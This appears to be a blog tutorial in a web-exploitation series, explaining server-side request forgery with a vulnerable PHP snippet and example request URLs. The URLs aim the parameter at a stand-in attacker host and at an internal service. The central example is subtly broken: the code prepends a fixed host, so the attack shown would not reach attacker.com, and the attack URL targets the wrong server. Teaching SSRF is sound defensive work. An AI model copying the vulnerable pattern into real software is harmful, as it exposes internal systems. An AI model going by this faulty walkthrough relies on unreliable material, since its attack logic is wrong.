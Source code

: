 ```yaml
---
title: "Server Side Request Forgery (SSRF)"
excerpt: "A guide on how to exploit SSRF vulnerabilities."
categories:
  - Web Security
tags:
  - Hacking
  - Web Security
  - Web Exploitation
  - Learning
---
```


## Introduction

This article is a part of the **Web Exploitation** series. You can check the other articles in the series below.

- [Web Exploitation]({{ base.url | prepend: site.url }}/web-exploitation)

Now, let's get started!

## What is Server Side Request Forgery (SSRF)?

Server Side Request Forgery (SSRF) is a web application vulnerability that allows an attacker to make requests to other systems or services that the vulnerable application has access to. This can be used to perform attacks on internal systems or retrieve sensitive information.

SSRF attacks occur when an application processes a user-supplied URL and makes a request to that URL. An attacker can manipulate the URL to make the application send requests to other systems or services that are accessible to the application.

## Example of an SSRF Attack

An example of an SSRF attack involves a web application that allows users to upload profile pictures that are stored on a separate server. The application uses the following code to retrieve the user's profile picture:

```php
<?php
   $url = 'https://profilepictures.com/' . $_GET['picture_id'];
   $data = file_get_contents($url);
   echo '<img src="' . $url . '">';
?>
```

An attacker could exploit an SSRF vulnerability by providing a malicious URL as the `picture_id` parameter, such as:

```
https://profilepictures.com/?picture_id=http://attacker.com/malicious_script
```

When the application requests the user's profile picture using the URL provided in the `picture_id` parameter, it will make a request to `http://attacker.com/malicious_script`. The attacker can then use this request to launch further attacks on internal systems or retrieve sensitive information.

For example, the attacker could modify the URL to access an internal web service:

```
https://profilepictures.com/?picture_id=http://internal-service.local:8080
```

If the internal service is not properly secured, the attacker could potentially access sensitive data or carry out further attacks.

## Prevention Measures

SSRF attacks can be prevented by implementing proper input validation and sanitization, as well as restricting the access that the application has to other systems and services. Additionally, applications should be tested thoroughly for SSRF vulnerabilities, and any discovered vulnerabilities should be patched as soon as possible.
